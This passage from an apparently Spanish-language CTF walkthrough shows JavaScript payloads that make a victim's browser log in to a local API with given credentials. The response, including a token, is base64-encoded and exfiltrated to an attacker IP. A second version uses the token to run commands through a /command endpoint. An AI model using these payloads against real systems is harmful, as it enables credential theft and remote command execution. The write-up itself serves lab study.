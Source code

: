 Veremos que ningún usuario es capaz de logearse en la **API**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315231256.png>)

Modificaremos el nombre de usuario remplazando los caracteres especiales (**Unicode**) por caracteres **ASCII**. Tal y como vemos a continuación, el usuario **Jose** tiene capacidad de logearse en la **API**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315231340.png>)

Gracias al siguiente contenido del `pwned.js`, conseguiremos logearnos con las credenciales **Jose:FuLqqEAErWQsmTQQQhsb**.

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
let data = JSON.stringify({"username": "Jose", "password": "FuLqqEAErWQsmTQQQhsb"})
x.open("POST","http://localhost:3000/login");
x.setRequestHeader("Content-Type", "application/json");
x.send(data);
```

En la respuesta de la petición, veremos un mensaje y un token necesario para acceder al endpoint **/command**, el cual aparentemente nos permite ejecutar comandos.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315192528.png>)

Volveremos a modificar el `pwned.js`, para ejecutar un `ping` a nuestra máquina de atacante.

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
let data = JSON.stringify({"command": "ping -c 1 192.168.26.10", "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikpvc2UiLCJyb2xlIjoidXNlciIsImlhdCI6MTc0MjA2MzEwMSwiZXhwIjoxNzQyMDY2NzAxfQ.jeAgJaUcaF9gtDJYzc8ig9nxuP9D7ckC1s8g5Lh7rmM"})
x.open("POST","http://localhost:3000/command");
x.setRequestHeader("Content-Type", "application/json");
x.send(data);
```
